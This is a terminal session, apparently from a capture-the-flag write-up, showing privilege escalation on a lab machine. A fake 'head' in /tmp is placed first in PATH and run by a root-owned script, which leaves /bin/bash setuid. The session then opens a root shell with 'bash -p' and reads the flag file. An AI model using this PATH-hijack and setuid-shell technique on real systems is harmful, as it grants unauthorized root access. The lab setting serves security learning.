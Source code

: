 ```bash
$ which head
/usr/bin/head
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
$ ls
head
snap-private-tmp
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-apache2.service-qkdTjh
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-ModemManager.service-KJJjTh
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-systemd-logind.service-Ze1uNh
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-systemd-resolved.service-SAAUQf
systemd-private-6b29ca23ee0c453c8ae1cc1a0276b925-systemd-timesyncd.service-74TQVi
$ chmod +x head
$ which head
/tmp/head
$ cd /home/laboratoryadmin/autoScripts
$ ./PMCEmployees
Showing top 10 best employees of PMC company$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
$ /bin/bash -p
bash-5.0# whoami;id
root
uid=1002(laboratoryadmin) gid=1002(laboratoryadmin) euid=0(root) egid=0(root) groups=0(root),1002(laboratoryadmin)
bash-5.0# cat /root/root.txt
flag{r00t_t3ns0}
```


